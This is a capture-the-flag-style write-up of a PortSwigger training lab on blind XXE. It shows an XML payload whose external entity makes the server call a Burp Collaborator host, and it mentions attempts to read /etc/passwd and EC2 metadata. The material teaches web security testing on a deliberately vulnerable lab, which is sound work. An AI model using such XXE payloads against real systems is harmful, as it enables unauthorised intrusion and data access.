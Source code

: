 \+ Lab #3    : Blind XXE with out-of-band interaction\
\+ Lab Level : Practitioner\
\+ Link      : https://portswigger.net/web-security/xxe/blind/lab-xxe-with-out-of-band-interaction

## About:
This lab has a ```Check stock``` feature that parses XML input but does not display the result.<br/>
You can detect the [blind XXE vulnerability](https://portswigger.net/web-security/xxe/blind) by triggering out-of-band interactions with an external domain.<br/>
To solve the lab, use an external entity to make the XML parser issue a DNS lookup and HTTP request to Burp Collaborator.<br/>

## End Goal:
Make the XML parser issue a ```DNS lookup``` and ```HTTP requests``` to ```Burp Collaborator's default public server```.

* First of all, we need to find an XML data entry point where we can test for XXE vulnerability.
* According to the lab description, the target Web Application has a check stock feature that parses XML input.
  ![XXE](https://user-images.githubusercontent.com/101610095/221443861-16357268-24f6-40be-9eba-cf94b6c412a8.png)
* Let's visit the ```/product``` page and intercept the POST request after clicking on the ```check stock``` button:
  ![XXE2](https://user-images.githubusercontent.com/101610095/221443309-560773a8-e280-438b-b7e9-162d23f0d046.png)
* As you can see here, after clicking on the check stock button, a client-side script issues a POST request to the server, and then the server respond with the following response:<br/> 
  ![XXE3](https://user-images.githubusercontent.com/101610095/221443796-aa626e12-d1df-4bc4-80a2-b2d2d82e0e89.png)
* The client-side script will then process the server's response and update part of the user interface by displaying the number of products left.<br/>
  ![XXE1](https://user-images.githubusercontent.com/101610095/221443008-d18e6537-9e12-4868-9742-a4f126fd598b.png)

## Exploitation:
### Manual:
#### Testing for classic XXE:
* Let's try to retrieve the content of ```/etc/passwd``` file: <br/>
  ![1](https://user-images.githubusercontent.com/101610095/221957490-3527b9de-653e-4e83-b7f8-eb9074b3e4b4.png)
* Let's try performing an ```SSRF``` attack to retrieve EC2 instance meta-data:<br/>
  ![2](https://user-images.githubusercontent.com/101610095/221957499-f594bca5-f8aa-4a0d-9cf2-d320892d3ab1.png)

* As you can see, the Web App is not vulnerable to ```classic XXE```, so let's test if it's the case for ```Blind XXE```

#### Testing for Blind XXE:
* Testing for Blind XXE with out-of-band interaction, is making the target server issue a request to our (Attacker's) server, and then monitor for any DNS lookup or HTTP request from the target server.
* For example, the following payload defines an external entity which will make the target server issue a back-end HTTP request to the specified URL.
```XML
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://2y1g99swzo9j2qzydwi059hca3gu4lsa.oastify.com"> ]>
```
> 📝: **NOTE:** <br/>
> * Since Portswigger's firewall blocks interactions between the Labs and arbitrary external systems, we will be using Burp Collaborator's default public server to perform the attack.<br/>
> * In order to get the url of Burp Collaborator's default public server, go to the ```Collaborator``` tab and then ```Start collaborator```, and finally copy the URL by clicking on ```Copy to Clipboard```<br>

* Now, Let's inject this external entity in between the ```XML Prolog``` and the root element ```<stockCheck>``` and replace the *productId* number with a reference to our malicious external entity ```&xxe;``` just like we did in the previous labs :
```XML
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://2y1g99swzo9j2qzydwi059hca3gu4lsa.oastify.com"> ]>
<stockCheck>
  <productId>
    &xxe;
  </productId>
  <storeId>
  1
  </storeId>
</stockCheck>
```
* Let's send the request: <br/>
  ![2023-02-28 20_58_25-Burp Suite Professional v2022 11 4 - Temporary Project - licensed to surferxyz](https://user-images.githubusercontent.com/101610095/221964994-d0b5713b-f93f-4a58-920d-864b122b2e94.png)

* Now, go to the ```Collaborator``` tab and click on ```Poll now```, you should see some DNS and HTTP interactions that were initiated by the target server as the result of the payload.<br/>
  ![2023-02-28 21_00_59-Burp Suite Professional v2022 11 4 - Temporary Project - licensed to surferxyz](https://user-images.githubusercontent.com/101610095/221965471-d9bd024d-1d06-4878-ac0b-86d9ef08eea7.png)

* And with this, we triggered an out-of-band interaction with the target server, thus the target Web App is vulnerable to ```Blind XXE```
### Automated:
* Refer to https://github.com/YounesTasra-R4z3rSw0rd/Web-Security-Academy/blob/main/XXE%20Injection/Lab%233/Lab-3.py
* Requirements:
```bash
pip3 install -m requirements.txt
```
* Help Menu: 
```bash
usage: Lab-3.py [-h] -u URL [-n]

Usage Example: python3 Lab-3.py --url https://0a2100.web-security-academy.net/ --no-proxy

options:
  -h, --help         show this help message and exit
  -u URL, --url URL  Enter the Lab URL
  -n, --no-proxy     Do not use proxy
```

